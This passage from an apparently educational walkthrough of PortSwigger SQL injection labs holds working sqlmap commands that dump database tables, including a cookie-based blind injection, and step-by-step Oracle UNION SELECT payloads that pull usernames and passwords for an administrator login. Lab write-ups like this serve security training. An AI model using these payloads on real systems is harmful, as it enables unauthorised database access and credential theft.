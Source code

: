 
### Quick Solution
The same applies for this lab with a little difference: ``Oracle`` DBMS is a little bit different when it comes to databases. So I used this commands:
```
# Get Tables
docker run -it --rm secsi/sqlmap -u "<target_url>" --tables
# Then I found the target table and runned
docker run -it --rm secsi/sqlmap -u "<target_url>" -T <users_table_name> --dump
```


### Solution
1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the ``category`` parameter:
```
'+UNION+SELECT+'abc','def'+FROM+dual--
```
3. Use the following payload to retrieve the list of tables in the database:
```
'+UNION+SELECT+table_name,NULL+FROM+all_tables--
```
4. Find the name of the table containing user credentials.
5. Use the following payload (replacing the table name) to retrieve the details of the columns in the table: 
```
'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'--
```
6. Find the names of the columns containing usernames and passwords.
7. Use the following payload (replacing the table and column names) to retrieve the usernames and passwords for all users:
```
'+UNION+SELECT+USERNAME_ABCDEF,+PASSWORD_ABCDEF+FROM+USERS_ABCDEF--
```
8. Find the password for the ``administrator`` user, and use it to log in.

## Blind SQL injection with conditional responses
### Reference: [PortSwigger: Blind SQL injection with conditional responses](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses)


### Quick Solution
This time the SQL Injections resides in the ``TrackingId`` cookie. For this reason a different ``sqlmap`` command must be used:
```
# Detect tables
docker run -it --rm secsi/sqlmap -u "<target_url>" --cookie="TrackingId=1" -p "TrackingId" --level 3 --tables
# Dump the content of 'users' table (set DBMS to speed up the execution)
docker run -it --rm secsi/sqlmap -u "<target_url>" --cookie="TrackingId=1" -p "TrackingId" --level 3 -T users --dbms=postgresql --dump
```
